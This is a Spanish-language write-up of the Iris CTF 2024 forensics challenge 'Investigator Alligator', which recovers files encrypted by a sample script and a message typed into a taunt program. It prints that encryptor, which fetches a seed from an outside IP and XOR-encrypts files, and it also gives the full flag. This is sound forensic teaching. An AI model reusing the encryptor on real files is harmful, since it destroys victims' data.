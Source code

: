 # Investigator Alligator (Iris CTF 2024 - Forensics)

## Challenge
JoSchmoTechCo's server got hit! The folder containing their super duper important company secrets is all locked up. Luckily, the sysadmin was smart enough to be capturing the network traffic and take a memory sample when the whole ordeal went down.

The victim user, in a flurry of blind panic, also typed something after the damage was already done. We have an image of the disk after the event. Can you recover their files and find out what the victim typed?

> Note: the malware contained is rather innocuous, but it's still a bad idea to run untrusted programs off the Internet. Please don't do that.

### Resource
Download option 1 - 
[investigator-alligator.gz](https://shawndxyz.sjc1.vultrobjects.com/ctf/2024.irisctf/investigator-alligator.gz)

Download Option 2 (Mirror) - 
[Mirror investigator-alligator.gz](https://cdn.2024.irisc.tf/investigator-alligator.gz)

**NOTA**: No se incluye el recurso en el repositorio debido a su tamaño.

```bash
ls -lah ./recurso
total 31G
drwxr-xr-x 2 jc jc 4,0K ene  7 12:51 .
drwxr-xr-x 3 jc jc 4,0K ene  7 12:51 ..
-rw-r--r-- 1 jc jc  25G ene  7 11:02 investigator-alligator
-rw-r--r-- 1 jc jc 6,4G ene  7 11:05 investigator-alligator.gz
``````

## Solve manual

### Primera parte de la flag

Extraemos el archivo investigator-alligator.gz:

```bash
7z x ./recurso/investigator-alligator.gz -o./recurso/
```

El archivo contiene datos formateados en el filesystem ext4:

```bash
file investigator-alligator
investigator-alligator: Linux rev 1.0 ext4 filesystem data, UUID=35fa8404-f9cc-45be-b6a5-22351ef2f486 (needs journal recovery) (extents) (64bit) (large files) (huge files)
```

Montamos el filesystem

```bash
sudo mkdir /mnt/investigator-alligator && sudo mount ./recurso/investigator-alligator /mnt/investigator-alligator
```

- En root/LiME/src/ encontramos sample.mem, el dump de memoria mencionado en la descripción del challenge.

- En root/capture encontramos network, la captura de tráfico de red mencionada en la descripción del challenge.

En /home/stephen se encuentra el archivo rswenc.py con el contenido:

```py
#!/usr/bin/env python3
import random
import socket
import sys
import time
f_if = sys.argv[1]
f_of = sys.argv[2]
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("149.28.14.135", 9281))
seed = s.recv(1024).strip()
s.close()
random.seed(seed)
with open(f_if, "rb") as f:
	data = f.read()
stream = random.randbytes(len(data))
encrypted = bytearray()
for i in range(len(data)):
	encrypted.append(data[i] ^ stream[i])
with open(f_of, "wb") as f:
	f.write(encrypted)
```

Este script utiliza una operación XOR para cifrar un archivo de entrada y guardar el resultado en un archivo de salida.

`s.connect(("149.28.14.135", 9281))`: Establece una conexión con el servidor en la dirección IP "149.28.14.135" y el puerto 9281. Luego recibe una semilla del servidor.

`random.seed(seed)`: Inicializa el generador de números pseudoaleatorios con la semilla recibida.

`for i in range(len(data)): encrypted.append(data[i] ^ stream[i])`: Realiza la operación XOR byte a byte entre el contenido del archivo de entrada y la secuencia de bytes aleatorios (stream), y guarda el resultado en el objeto bytearray.

Siendo una operación XOR, conociendo el valor recibido en seed, se podrá restaurar el archivo de entrada a su estado original.
Para conocer el valor seed, lo buscaremos en la captura.

```bash
tshark -r network -Y "tcp.port == 9281" -T fields -e data | xxd -r -p
```

![seed](./images/investigator-alligator-seed.png)

Creamos un script rwsdec.py con el mismo contenido que rwsenc.py, eliminando la conexión por sockets y  cambiando la linea `seed =` por `seed = "eng0jieh7ahga7eidae6taebohhaicaeraef5ahng8ohb2Tho3ahz7ojooXeixoh0thoolung7eingietai8hiechar6ahchohn6uwah2Keid5phoil7Oovool3Quai"`

Quedando de la siguiente forma:
`rwsdec.py`:

```bash
#!/usr/bin/env python3
import random
import sys

f_if = sys.argv[1]
f_of = sys.argv[2]

seed = "eng0jieh7ahga7eidae6taebohhaicaeraef5ahng8ohb2Tho3ahz7ojooXeixoh0thoolung7eingietai8hiechar6ahchohn6uwah2Keid5phoil7Oovool3Quai"

random.seed(seed)
with open(f_if, "rb") as f:
	data = f.read()
stream = random.randbytes(len(data))
decrypted = bytearray()
for i in range(len(data)):
	decrypted.append(data[i] ^ stream[i])
with open(f_of, "wb") as f:
	f.write(decrypted)
```

Lo colocamos en /home/stephen y ejecutamos `python rwsdec.py encrypted.img decrypted.img`

```bash
sudo mkdir /mnt/investigator-alligator-decrypted && sudo mount ./decrypted.img /mnt/investigator-alligator-decrypted 
```

![ls decrypted](./images/investigator-alligator-ls-decrypted.png)

Abrimos la imagen /mnt/investigator-alligator-decrypted/data/super_duper_important_info.png y encontramos la primera parte de la flag: `irisctf{y0ure_a_r3al_m4ster_det3`

### Segunda parte de la flag

En la descripción del challenge dice que el usuario escribió algo al ser hackeado. Por lo tanto buscaremos en el dump de memoria generado por [LiME ~ Linux Memory Extractor](https://github.com/504ensicsLabs/LiME).

Abrimos el archivo /root/LiMe/src/sample.mem en un editor de texto y en la línea 4062972 encontramos:

```bash
echo "I2luY2x1ZGUgPHN0ZGlvLmg+CiNpbmNsdWRlIDx1bmlzdGQuaD4KCmludCBtYWluKCkKewoJY2hhciBidWZmZXJbMTAyNF0gPSB7MH07CgoJcHV0cygiWU9VJ1ZFIEJFRU4gUFdORUQhIik7CglwdXRzKCJXSEFUIERPIFlPVSBTQVkgSU4gUkVTUE9OU0U/Iik7CglmZ2V0cyhidWZmZXIsIDEwMjQsIHN0ZGluKTsKCglwdXRzKCJNRUFOV0hJTEUsIFRIRSBQV05FUiBHT0VTIHp6ei4uLiIpOwoJc2xlZXAoOTk5OSk7Cn0K" | base64 -d > taunt.c
```

El código fuente del programa taunt.c, luego de usar base64 -d es:

```c
#include <stdio.h>
#include <unistd.h>

int main()
{
        char buffer[1024] = {0};

        puts("YOU'VE BEEN PWNED!");
        puts("WHAT DO YOU SAY IN RESPONSE?");
        fgets(buffer, 1024, stdin);

        puts("MEANWHILE, THE PWNER GOES zzz...");
        sleep(9999);
}
```

Ya que el programa muestra *"WHAT DO YOU SAY IN RESPONSE?"* buscamos este texto, y en la línea 867206 encontramos que tal como lo indicaba el challenge, el usuario escribió:

```
YOU'VE BEEN PWNED!
WHAT DO YOU SAY IN RESPONSE?
ctive_ty_f0r_s4v1ng_0ur_d4ta}
MEANWHILE, THE PWNER GOES zzz...
```

Se encontró la segunda parte de la flag: `ctive_ty_f0r_s4v1ng_0ur_d4ta}`. Por lo tanto ya conseguimos la flag completa!


### Flag
Flag: `irisctf{y0ure_a_r3al_m4ster_det3ctive_ty_f0r_s4v1ng_0ur_d4ta}`

![Solved](./images/investigator-alligator-solved.png)

## Solve utilizando solve.py
### Requerimientos
El script requiere múltiples packages. La instalación de requerimientos se realiza con el siguiente comando:

```bash
pip install -r requirements.txt
```

Además requiere tener instalado [7z](https://linux.die.net/man/1/7z)

```py
# Run the 7z command to extract files
command = ["7z", "e", "-aos", output_file, capture_to_extract, f"-o{extracted_path}"]
```

### Ejecución
Se deberá ejecutar el siguiente comando:

```bash
python solve.py
```

Mostrará en el output la segunda parte de la flag y el path de la imagen que deberá ser visualizada para obtener la primera parte de la flag.

> Nota: el script descargará el recurso en caso de no estar en ./recurso.

![Solved using python script](./images/investigator-alligator-python-solve.png)
